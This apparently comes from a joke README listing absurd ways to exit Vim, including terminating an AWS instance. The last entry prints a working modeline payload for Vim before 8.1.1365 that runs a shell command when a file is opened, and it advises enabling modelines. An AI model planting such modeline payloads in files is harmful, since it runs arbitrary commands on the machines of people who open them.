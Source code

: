 ## The Entry Level Software Engineer way
1. Try CTRL+C
2. Ask a senior engineer
3. Have senior engineer direct you to [how-to-exit-vim](https://github.com/hakluke/how-to-exit-vim)

## The [Obligatory] Emacs Way

```
$ echo 'alias vim=emacs' >> ~/.bashrc
$ source ~/.bashrc
```

Note: does not exit a running instance of Vim, but resolves future issues.

## The AWS Way
1. In AWS EC2, select **Launch Instance**.
2. Launch an EC2 instance with a Linux based AMI.
3. ssh into the newly created EC2 instance
```shell
ssh -i <ec2 keypair pem location> ec2-user@<ec2 instance ip address>
```
4. Launch vim
```shell
vim
```
5. In the AWS EC2, select the newly created EC2 instance and terminate the instance.

## The Matryoshka Way
Credit: @ccw630

```vim
:!$SHELL
```

## The AWS CLI Way
```
!aws --region `ec2-metadata --availability-zone | sed 's/placement: \(.*\).$/\1/'` ec2 stop-instances --instance-ids `wget -q -O - http://169.254.169.254/latest/meta-data/instance-id`
```

## The Arbitrary Code Execution Way

Based on https://www.exploit-db.com/exploits/46973. Works with Vim < 8.1.1365.

1. Create a file (say `quit.txt`) with the following data:
```
echo ':!killall vim||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' > quit.txt
```
2. Ensure that the modeline option has not been disabled.
```
echo "set modeline" >> .vimrc
```
3. Open `quit.txt`.
```
:e! quit.txt
```
